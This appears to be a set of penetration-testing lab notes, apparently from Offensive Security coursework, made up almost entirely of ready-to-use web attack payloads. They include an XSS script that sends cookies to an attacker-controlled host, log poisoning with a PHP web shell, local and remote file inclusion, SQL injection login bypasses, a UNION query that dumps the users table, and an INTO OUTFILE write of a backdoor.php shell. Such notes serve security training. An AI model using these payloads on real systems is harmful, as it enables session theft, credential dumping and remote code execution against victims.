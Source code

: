 ```text
<script>
new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;
</script>

$ nc -nlvp 80
```

### Local File Inclusion

```text
$ nc -nv 10.11.1.35 80
(UNKNOWN) [10.11.1.35] 80 (http) open
<?php echo shell_exec($_GET['cmd']);?>

-- writes php code into c:\xampp\apache\logs\access.log

http://10.11.1.35/addguestbook.php?name=a&comment=b&cmd=ipconfig&LANG=../../../../../
../../xampp/apache/logs/access.log%00
```

### Remote File Inclusion

```text
http://10.11.1.35/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.5/evil.txt

$ nc -nlvp 80

$ cat /var/www/html/evil.txt
<?php echo shell_exec("ipconfig");?>

$ systemctl start apache2
```

### SQL Injection

in username field enter:

```text
wronguser' OR 1=1 LIMIT 1;#
admin' or 1=1 limit 1 --
```

```text
.../comment.php?id=738 order by 1

.../comment.php?id=738 union all select 1,2,3,4,5,6

.../comment.php?id=738 union all select 1,2,3,4,@@version,6

.../comment.php?id=738 union all select 1,2,3,4,user(),6

.../comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM
information_schema.tables

.../comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM
information_schema.columns where table_name='users'

.../comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,
password),6 FROM users

.../comment.php?id=738 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```


[Unknown]: Ownage Dept
[Unknown]: Offensive Security